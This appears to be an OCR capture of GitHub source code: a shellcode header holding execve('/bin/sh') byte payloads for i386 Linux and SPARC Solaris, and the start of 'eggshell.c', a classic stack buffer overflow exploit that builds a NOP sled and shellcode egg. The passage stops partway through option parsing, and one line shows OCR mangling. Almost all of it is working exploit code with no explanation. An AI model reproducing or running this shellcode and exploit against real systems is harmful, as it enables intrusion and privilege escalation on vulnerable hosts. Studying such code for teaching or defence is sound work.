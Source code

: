 ```c
//shellcode.h

#if defined(__i386__) && defined(__linux__)

#define NOP_SIZE		1
char nop[] = "\x90";
char shellcode[] = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" "\x80\xe8\xdc\xff\xff\xff/bin/sh";
unsigned long get_sp(void) { 
    __asm__("movl %esp,%eax");
}

#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

#define NOP_SIZE		4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] = "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e" "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0" "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08" "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";
unsigned long get_sp(void) { 
    __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__) 

#define NOP_SIZE
4 char nop[]="\xac\x15\xa1\x6e";
char shellcode[] = "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e" "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0" "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff" "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) { 
    __asm__("or %sp, %sp, %i0");
} 

#endif

```





```c
//eggshell.c
#include "stdio.h"
#include "shellcode.h" 
#define DEFAULT_OFFSET			0 
#define DEFAULT_BUFFER_SIZE 	512 
#define DEFAULT_EGG_SIZE		2048
void usage(void);

void main(int argc, char *argv[]) { 
    char *ptr, *bof, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;
    
    while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF) 
        switch (c) { 
            case 'a': 
                align = atoi(optarg);
                break;
			case 'b': 
                bsize = atoi(optarg);
```